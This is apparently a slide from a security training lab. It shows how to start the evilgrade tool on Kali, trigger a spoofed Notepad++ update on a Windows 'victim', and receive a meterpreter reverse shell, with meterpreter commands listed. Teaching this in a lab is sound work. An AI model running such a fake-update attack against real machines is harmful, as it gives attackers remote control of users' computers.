

# Installation - Evilgrade
In a new terminal in Kali:
# cd /usr/bin
# ./evilgrade
evilgrade>start

On Windows victim install an older version of
Notepad++ (npp.5.8.Installer)
Run Notepad++ and in the Help menu select Update  Notepad++
You should receive a meterpreter shell back in Kali!
meterpreter> sysinfo
meterpreter> shell

BORROWED